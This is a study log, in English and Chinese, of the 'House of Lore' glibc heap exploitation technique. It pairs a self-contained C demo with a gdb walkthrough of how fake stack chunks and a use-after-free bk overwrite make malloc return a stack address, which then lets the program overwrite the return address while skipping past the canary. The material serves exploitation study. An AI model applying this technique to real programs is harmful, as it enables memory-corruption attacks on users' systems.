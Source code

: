 # house_of_lore.log
## source code
```cpp
void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  printf("\nWelcome to the House of Lore\n");
  printf("This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  printf("This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  printf("Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  printf("Allocated the first small chunk on the heap at %p\n", victim);

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  printf("stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  printf("stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  printf("Create a fake chunk on the stack");
  printf("Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  printf("Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
  
  printf("Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  printf("Allocated the large chunk on the heap at %p\n", p5);


  printf("Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  printf("\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  printf("victim->fwd: %p\n", (void *)victim[0]);
  printf("victim->bk: %p\n\n", (void *)victim[1]);

  printf("Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  printf("This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  printf("The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  printf("The victim chunk has been sorted and its fwd and bk pointers updated\n");
  printf("victim->fwd: %p\n", (void *)victim[0]);
  printf("victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  printf("Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  printf("Now allocating a chunk with size equal to the first one freed\n");
  printf("This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

  void *p3 = malloc(100);


  printf("This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");
  char *p4 = malloc(100);
  printf("p4 = malloc(100)\n");

  printf("\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
         stack_buffer_2[2]);

  printf("\np4 is %p and should be on the stack!\n", p4); // this chunk will be allocated on stack
  intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
  memcpy((p4+44), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
}
```

## environment
Ubuntu x86 glibc-2.13
gdb-peda

## trace
第一次malloc：
![](./images/20171102_1.jpg)

大小为0x68=104((100+8-4)align(8))。
stack_buffer_1和stack_buffer_2的起始地址分别是0xbffff5a8和0xbffff59c。

在stack_buffer_1起始处伪造chunk：
![](./images/20171102_2.jpg)

preSize和curSize都是0，fd指针设置成了victim对应的chunk起始地址。继续设置伪造chunk的bk指针，设置为stack_buffer_2起始地址。

bk设置成的stack_buffer_2又是一个伪造chunk，修改对应的fd指针成stack_buffer_1伪造chunk：
![](./images/20171102_3.jpg)

再次分配一个1008的chunk，防止free victim时与top chunk合并：
![](./images/20171102_4.jpg)

free victim：
![](./images/20171102_5.jpg)

链到了unsorted bin上：
![](./images/20171102_6.jpg)

此时last remainder为空，unsorted bin上唯一的chunk是victim。

再次分配chunk：
![](./images/20171102_7.jpg)

由于malloc时会一路遍历到unsorted bin，但victim不足以切割0x4b8大小的chunk，所以malloc中会把unsorted bin上的chunk全部打回原形，链到了应属的small bin上。此时也可以看到main_arena上unsorted bin已空，而由于0x4b8最终还是top chunk分配的，所以top chunk ptr也相应更新。

此时再看free chunk victim:
![](./images/20171102_8.jpg)

其fd和bk指针与main_arena上吻合，表示已经链到了所属的small bin上。
此时修改victim（这属于UAF）的bk指针，指向栈上的伪造chunk stack_buffer_1，然后再次分配一个104大小的small chunk，此时会直接把victim重新分配出去，并更新了small bin上的指针：
![](./images/20171102_9.jpg)

可以看到此时的small bin[idx]的bk指针指向了stack_buffer_1，但fd指针依然指向victim。

由此，再次分配104大小的chunk时，stack_buffer_1这个伪造的chunk就会被分配出去(尽管这个chunk的curSize根本不对，但却无所谓，毕竟它已经被链到bin上了，如果未来glibc额外做了size检查，继续伪造对应字段即可)，并按同样的套路更新small bin的指针：
![](./images/20171102_10.jpg)

stack_buffer_2的fd指针此时指向了small bin[idx]。

此后就可以对stack为所欲为，把jackpot函数覆盖ret eip，而由于这种方式是堆式狙击而非栈式轰炸，可以避免开启了canary防护的canary值被篡改而失败。

调整了一下我的环境中栈覆盖的尺寸，从原来的40调到44，成功hook ret eip：
![](./images/20171102_11.jpg)